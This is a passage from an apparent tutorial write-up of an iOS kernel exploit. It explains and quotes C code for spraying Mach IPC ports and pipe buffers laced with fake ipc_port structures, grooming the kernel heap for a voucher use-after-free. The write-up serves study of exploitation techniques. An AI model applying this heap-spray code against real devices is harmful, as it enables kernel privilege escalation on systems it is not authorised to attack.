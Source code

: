 We need to spray a lot of IPC ports. Some of these ports will close the existing holes and force the kernel to allocate additional blocks from the zone map. When we spray the pipe buffers after that, we will assume that they land just in front of the ports. The **filler_port_count** is chosen to be **8000** based on trial and error. The **base_port** is the last port created using the **create_ports** call. Remember this as we will use it again in Step 8\. The next memory block should be hopefully allocated next to the pipe buffers, and since the pipe size is **16MB**, our fake port which we will create inside the pipe buffer should be within the **16MB** range. On the first **2000 ports**, we also increase the queue limit, which is the maximum of messages that can be sent at once to the port. The reason for doing is on the first **2000** ports is because we will be sending messages using OOL ports descriptor to these ports in order to reallocate the freed vouchers, and hence having the ability to send more messages to these ports would help in the spray.

{% highlight c %}
    // 3\. Spray a bunch of IPC ports. Hopefully these ports force the ipc.ports zone to grow
    	// and allocate fresh pages from the zone map, so that the pipe buffers we allocate next
    	// are placed directly after the ports.
    	//
    	// We want to do this as early as possible so that the ports are given low addresses in the
    	// zone map, which increases the likelihood that bits 28-31 of the pointer are 0 (which is
    	// necessary later so that the overlapping iv_refs field of the voucher is valid).
    	const size_t filler_port_count = 8000;
    	const size_t base_port_to_fake_port_offset = 4 * MB;
    	mach_port_t *filler_ports = create_ports(filler_port_count + 1);
    	INFO("created %zu ports", filler_port_count);
    	// Grab the base port.
    	base_port = filler_ports[filler_port_count];
    	// Bump the queue limit on the first 2000 ports, which will also be used as holding ports.
    	for (size_t i = 0; i < 2000; i++) {
    		port_increase_queue_limit(filler_ports[i]);
    	}
{% endhighlight %}


#### Step 4: Spray the Pipe buffers

Next, we spray the heap with pipe buffers and hope they land just after the ports in memory.

{% highlight c %}
    // 4\. Spray our pipe buffers. We're hoping that these land contiguously right after the
    	// ports.
    	assert(pipe_buffer_size == 16384);
    	pipe_buffer = calloc(1, pipe_buffer_size);
    	assert(pipe_buffer != NULL);
    	assert(pipe_count <= IO_BITS_KOTYPE + 1);
    	size_t pipes_sprayed = pipe_spray(pipefds_array,
    			pipe_count, pipe_buffer, pipe_buffer_size,
    			^(uint32_t pipe_index, void *data, size_t size) {
    		// For each pipe buffer we're going to spray, initialize the possible ipc_ports
    		// so that the IKOT_TYPE tells us which pipe index overlaps. We have 1024 pipes and
    		// 12 bits of IKOT_TYPE data, so the pipe index should fit just fine.
    		iterate_ipc_ports(size, ^(size_t port_offset, bool *stop) {
    			uint8_t *port = (uint8_t *) data + port_offset;
    			FIELD(port, ipc_port, ip_bits,       uint32_t) = io_makebits(1, IOT_PORT, pipe_index);
    			FIELD(port, ipc_port, ip_references, uint32_t) = 1;
    			FIELD(port, ipc_port, ip_mscount,    uint32_t) = 1;
    			FIELD(port, ipc_port, ip_srights,    uint32_t) = 1;
    		});
    	});
    	size_t sprayed_size = pipes_sprayed * pipe_buffer_size;
    	INFO("sprayed %zu bytes to %zu pipes in kalloc.%zu",
    			sprayed_size, pipes_sprayed, pipe_buffer_size);
{% endhighlight %}

